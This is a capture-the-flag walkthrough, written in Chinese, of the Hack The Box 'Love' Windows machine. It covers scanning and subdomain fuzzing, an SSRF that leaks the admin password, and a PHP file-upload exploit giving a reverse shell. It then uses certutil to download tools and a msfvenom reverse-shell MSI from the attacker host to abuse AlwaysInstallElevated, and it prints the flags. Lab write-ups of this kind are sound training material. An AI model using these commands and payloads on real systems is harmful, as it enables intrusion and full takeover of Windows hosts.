

###### tags: `Hack the box` `HTB` `Easy` `Windows`

# Love
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.48.103 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.48.103:80
Open 10.129.48.103:135
Open 10.129.48.103:139
Open 10.129.48.103:443
Open 10.129.48.103:445
Open 10.129.48.103:5000
Open 10.129.48.103:5040
Open 10.129.48.103:5985
Open 10.129.48.103:5986
Open 10.129.48.103:7680
Open 10.129.48.103:3306
Open 10.129.48.103:47001
Open 10.129.48.103:49664
Open 10.129.48.103:49665
Open 10.129.48.103:49667
Open 10.129.48.103:49666
Open 10.129.48.103:49668
Open 10.129.48.103:49669
Open 10.129.48.103:49670

PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-title: 400 Bad Request
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/emailAddress=roy@love.htb/localityName=norway
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/emailAddress=roy@love.htb/localityName=norway
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack ttl 127 MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http         syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown      syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp  open  pando-pub?   syn-ack ttl 127
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

`ffuf`掃
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://10.129.48.103/FUZZ -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt

images                  [Status: 301, Size: 340, Words: 22, Lines: 10, Duration: 511ms]
Images                  [Status: 301, Size: 340, Words: 22, Lines: 10, Duration: 480ms]
admin                   [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 481ms]
plugins                 [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 480ms]
includes                [Status: 301, Size: 342, Words: 22, Lines: 10, Duration: 480ms]
dist                    [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 481ms]
licenses                [Status: 403, Size: 422, Words: 37, Lines: 12, Duration: 481ms]
IMAGES                  [Status: 301, Size: 340, Words: 22, Lines: 10, Duration: 482ms]
%20                     [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 480ms]
Admin                   [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 479ms]
*checkout*              [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 479ms]
Plugins                 [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 480ms]
phpmyadmin              [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 481ms]
webalizer               [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 485ms]
*docroot*               [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 480ms]
*                       [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 479ms]
con                     [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 482ms]
http%3A                 [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 479ms]
Includes                [Status: 301, Size: 342, Words: 22, Lines: 10, Duration: 481ms]
**http%3a               [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 654ms]
                        [Status: 200, Size: 4388, Words: 654, Lines: 126, Duration: 486ms]
aux                     [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 1887ms]
*http%3A                [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 481ms]
Dist                    [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 480ms]
**http%3A               [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 481ms]
%C0                     [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 480ms]
:: Progress: [87664/87664] :: Job [1/1] :: 81 req/sec :: Duration: [0:19:16] :: Errors: 0 :
```

先把domain加進來，掃`subdomain`，把`staging.love.htb`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.48.103   love.htb

┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://love.htb/ -H "Host:FUZZ.love.htb" -w /home/kali/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 654

staging                 [Status: 200, Size: 5357, Words: 1543, Lines: 192, Duration: 481ms]
beijinghuanleguyulecheng [Status: 200, Size: 4388, Words: 1, Lines: 1, Duration: 9104ms]
baijialeloutilan        [Status: 200, Size: 4388, Words: 1, Lines: 1, Duration: 9104ms]
:: Progress: [100000/100000] :: Job [1/1] :: 34 req/sec :: Duration: [0:24:08] :: Errors: 7 ::

┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.48.103   love.htb
10.129.48.103   staging.love.htb
```

進到`http://staging.love.htb/`之後點`Demo`可以看到`http://staging.love.htb/beta.php`這個頁面，我們可以就剛剛`rustscan`的結果把`http://127.0.0.1:5000/`丟進來



可以看到`admin`的密碼`@LoveIsInTheAir!!!!`，可以登入`voting system`了，google搜尋到[edb-49445](https://www.exploit-db.com/exploits/49445)，再根據`ffuf`掃到的結果修改路徑
```php
import requests

# --- Edit your settings here ----
IP = "10.129.48.103" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.36" # Reverse shell IP
REV_PORT = "4444" # Reverse port
# --------------------------------

INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"

payload = """
```

修改後開`nc`，使用後就可以得到`shell`，在`C:\Users\Phoebe\Desktop`可得user.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4444

┌──(kali㉿kali)-[~/htb]
└─$ python3 49445.py         
Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully

C:\xampp\htdocs\omrs\images>whoami
love\phoebe

C:\Users\Phoebe\Desktop>type user.txt
8af91c0f6c517d1d72e658170f6f2d10
```

用`winpeas`
```
PS C:\Users\Phoebe\Desktop> certutil.exe -urlcache -f http://10.10.14.36/winPEASx64.exe winPEASx64.exe

PS C:\Users\Phoebe\Desktop> ./winPEASx64.exe

����������͹ UAC Status
� If you are in the Administrators group check how to bypass the UAC https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access                                                                                          
    ConsentPromptBehaviorAdmin: 0 - No prompting
    EnableLUA: 1
    LocalAccountTokenFilterPolicy: 1
    FilterAdministratorToken: 0
      [*] LocalAccountTokenFilterPolicy set to 1.
      [+] Any local account can be used for lateral movement. 
```

參考這篇[Windows Privilege Escalation : AlwaysInstallElevated](https://medium.com/@persecure/windows-privilege-escalation-alwaysinstallelevated-8e83f7d1bbc6)
做一個`.msi`，上傳到靶機並開`nc`後執行
```
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.36 LPORT=443 -a x64 --platform Windows -f msi -o evil.msi

PS C:\Users\Phoebe\Desktop> certutil.exe -urlcache -f http://10.10.14.36/evil.msi evil.msi

┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp443

PS C:\Users\Phoebe\Desktop> ./evil.msi
```

得root權限之後，在`C:\Users\Administrator\Desktop`可得root.txt
```
C:\WINDOWS\system32>whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
e3a3e105fae74bcbe56affed71fa9282
```
